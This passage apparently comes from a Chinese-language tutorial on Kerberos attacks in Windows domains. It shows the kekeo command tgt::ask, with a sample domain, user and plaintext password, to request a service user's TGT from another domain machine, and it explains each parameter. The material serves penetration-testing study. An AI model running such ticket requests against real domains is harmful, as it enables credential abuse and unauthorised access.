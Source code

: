 ![](images/16.jpg)

这里需要一个工具[kekeo](https://github.com/gentilkiwi/kekeo)提取 tgt。

已经知道**服务用户明文密码**的条件下，我们可以用kekeo请求该用户的TGT：

登录域内另一台机器 tony-PC：

	tgt::ask /user:tony /domain:lmrsec.com /password:Passw0rd /ticket:1.kirbi

	参数：
	
	/user: 服务用户的用户名
	
	/password: 服务用户的明文密码
	
	/domain: 所在域名
	
	/ticket: 指定票据名称，不过这个参数没有生效，可以忽略

![](images/17.jpg)
